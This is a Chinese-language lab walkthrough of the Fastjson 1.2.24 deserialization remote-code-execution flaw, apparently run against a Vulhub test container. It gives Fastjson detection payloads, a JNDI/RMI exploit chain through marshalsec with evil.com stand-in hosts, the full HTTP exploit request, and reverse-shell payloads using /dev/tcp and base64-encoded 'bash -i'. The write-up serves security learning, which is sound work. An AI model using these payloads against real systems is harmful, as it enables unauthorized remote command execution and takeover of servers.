







# Fastjson 1.2.24 反序列化导致任意命令执行漏洞

## 漏洞描述

Fastjson 在解析 json 的过程中，支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- [http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title- fastjson 远程反序列化 poc 的构造和分析/)

## 环境搭建

Vulhub 运行测试环境：

```
docker-compose up -d
```

环境运行后，访问 `http://your-ip:8090` 即可看到 JSON 格式的输出。



我们向这个地址 POST 一个 JSON 对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 如何判断一个站点是否存在 Fastjson？

- 参考阅读：https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/

**方式 1 响应时间**

正常数据响应时间（29 毫秒）：



存在 Fastjson 时，16 进制数据响应时间明显变长（396 毫秒）：



**方式 2 DNSlog**

最新版本 1.2.67 依然可以通过 dnslog 判断后端是否使用 fastjson

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

## 漏洞复现

因为目标环境是 Java 8u102，没有 `com.sun.jndi.rmi.object.trustURLCodebase` 的限制，我们可以使用 `com.sun.rowset.JdbcRowSetImpl` 的利用链，借助 JNDI 注入来执行命令。

首先编译并上传命令执行代码，如 `http://evil.com/TouchFile.class`：

执行 `javac TouchFile.java`，生成 `TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

通过 python 搭建一个临时的 web 服务，该服务是为了接收 LDAP 服务重定向请求，需要在 payload 的目录下开启此 web 服务，这样才可以访问到 payload 文件。此处 payload 文件即 `TouchFile.class`。

```
python -m http.server 8888
```

然后我们借助 [marshalsec](https://github.com/mbechler/marshalsec) 项目，启动一个 RMI 服务器，监听 9999 端口，并制定加载远程类 `TouchFile.class`。

```
$ git clone https://github.com/mbechler/marshalsec.git
$ mvn clean package -DskipTests
$ cp ./target/marshalsec-0.0.3-SNAPSHOT-all.jar /home/kali/vulnerability/vulhub/fastjson/1.2.24-rce
```

```shell
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com:8888/#TouchFile" 9999
```



向靶场服务器发送 Payload，带上 RMI 的地址，注意 Content-Type 应该是 `application/json`：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```



可见，命令 `touch /tmp/success` 已成功执行：



### 反弹 shell

同样，执行 `javac TouchFile.java`，生成 `TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.174.128/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

也可以使用 bash base64 的方式：

```java
String[] commands = {"bash", "-c","{echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTQ3LjEyNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"}
```

启动一个 RMI 服务器，监听 8888 端口，并制定加载远程类 `TouchFile.class`：

```
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 8888
```

发送 POST 请求包：

```
POST / HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 165

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.174.128:8888/TouchFile",
        "autoCommit":true
    }
}
```

监听 9999 端口，接收反弹 shell：


